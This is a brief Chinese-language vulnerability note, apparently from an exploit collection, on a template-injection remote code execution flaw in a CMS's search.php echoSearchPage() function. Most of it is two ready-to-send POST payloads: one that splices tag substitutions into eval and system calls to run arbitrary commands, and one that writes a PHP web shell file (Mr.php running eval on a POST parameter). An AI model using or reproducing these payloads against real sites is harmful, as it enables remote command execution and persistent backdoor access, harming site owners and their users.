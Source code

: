 漏洞详情:                        
	漏洞位于search.php处，echoSearchPage()函数对html中的searchpage标签进行了多次的替换，多次替换过程中不断组合形成payload    
PostData:      
	searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=sys&9[]=tem('cmd');
	可执行任意命令      
PostData:
    searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=fwrite(&9[]=fopen('Mr.php','w')&9[]=,'<?php eval($_POST["Mr"]);?>');
    可GetShell
